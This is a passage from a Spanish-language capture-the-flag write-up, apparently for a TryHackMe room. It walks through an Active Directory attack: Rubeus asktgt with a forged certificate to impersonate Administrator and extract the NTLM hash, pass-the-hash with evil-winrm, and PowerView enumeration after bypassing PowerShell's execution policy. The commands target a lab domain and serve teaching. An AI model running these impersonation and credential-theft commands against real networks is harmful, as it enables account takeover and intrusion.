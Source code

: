 La herramienta nos provee el certificado necesario para autenticar la personificación del usuario vulnerable mediante un comando que se puede ejecutar usando `Rubeus`.

A continuación THM nos cuenta un poco como funciona y de qué se trata la autenticación en AD, menciona que utiliza el protocolo Kerberos, el cual le provee tokens (`TGT`) a cada usuario.

Mediante `Rubeus`, una herramienta creada en C#, es posible continuar el proceso de explotación pidiéndole un `TGT` al usuario vulnerable utilizando el certificado que generamos previamente.  
Una vez obtenido el certificado y un `TGT` válido podemos hacernos pasar por el usuario. También podemos visualizar el hash `NTLM` de la cuenta del usuario, hash que puede utilizarse luego para un ataque *pass-the-hash*.

El uso del `TGT` es simple, copiamos y pegamos el output del comando anterior:

```ps1
.\Rubeus.exe asktgt /user:Administrator /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH[snip] /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

Donde cada elemento corresponde a:

- `asktgt`: hace una request para obtener el TGT.
- `/user`: el usuario por el cual queremos hacernos pasar.
- `/certificate`: el certificado generado para hacernos pasar por el usuario.
- `/password`: la contraseña utilizada para decodificar el certificado (ya que se encuentra encriptado).
- `/domain`: el target domain.
- `/getcredentials`: flag que obtiene el hash NTLM.
- `/dc`: el Domain Controller que genera el TGT.

Para ver el output ir al apartado de resolución.

Una vez obtenido el hash NTLM podemos utilizarlo para ejecutar un ataque *pass-the-hash*. Este ataque consiste en aprovecharse de la contraseña encriptada guardada en el DC en lugar de una contraseña de texto plano.  
Para esto vamos a utilizar una herramienta (desde nuestra AttackBox) llamada **Evil-WinRM**, la cual abusa el protocolo de Windows Remote Management. La sintaxis es la siguiente:

```ps1
evil-winrm -i IP_MAQUINA -u USER_ENUMERATED -H NTLM_HASH_OBTENIDO
```

Lo mismo que antes, el output va a estar en el apartado de resolución.

## Resolución

### Enumeración mediante PowerView

Ejecutamos el script detallado en el apartado [Enumeración](#enumeración) de la siguiente manera:

1. `powershell -ep bypass`: para asegurarnos de poder ejecutar scripts en la máquina.
2. `. .\PowerView.ps1`: para cargar el script en memoria.

Luego procedemos a ir armando el comando completo:

1. `Find-InterestingDomainAcl -ResolveGuids`: para enumerar los privilegios.
2. `Where-Object { $_.IdentityReferenceName -eq "hr" }`: para ver solo los resultados del usuario `hr`.
3. `Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights`: para obtener el usuario actual, el usuario vulnerable y el privilegio asignado, que es a fin de cuentas lo que nos interesa.
